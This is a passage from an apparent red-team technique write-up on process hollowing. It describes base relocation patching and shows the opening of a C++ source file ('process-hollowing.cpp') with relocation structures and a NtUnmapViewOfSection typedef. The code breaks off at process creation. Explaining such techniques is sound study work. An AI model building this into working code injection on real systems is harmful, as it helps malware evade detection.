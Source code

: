 ![](../../.gitbook/assets/screenshot-from-2019-04-30-22-19-42.png)

After executing the code line 118, `0040E7A5` got patched to the new location `0038E7A5` matching the new image base `00380000`:

![](../../.gitbook/assets/screenshot-from-2019-04-30-22-58-35.png)

## Code

{% code-tabs %}
{% code-tabs-item title="process-hollowing.cpp" %}
```cpp
// process-hollowing.cpp : This file contains the 'main' function. Program execution begins and ends there.
//

#include "pch.h"
#include <iostream>
#include <Windows.h>
#include <winternl.h>

using NtUnmapViewOfSection = NTSTATUS(WINAPI*)(HANDLE, PVOID);

typedef struct BASE_RELOCATION_BLOCK {
	DWORD PageAddress;
	DWORD BlockSize;
} BASE_RELOCATION_BLOCK, *PBASE_RELOCATION_BLOCK;

typedef struct BASE_RELOCATION_ENTRY {
	USHORT Offset : 12;
	USHORT Type : 4;
} BASE_RELOCATION_ENTRY, *PBASE_RELOCATION_ENTRY;

int main()
{
	// create destination process - this is the process to be hollowed out
	LPSTARTUPINFOA si = new STARTUPINFOA();
	LPPROCESS_INFORMATION pi = new PROCESS_INFORMATION();
```
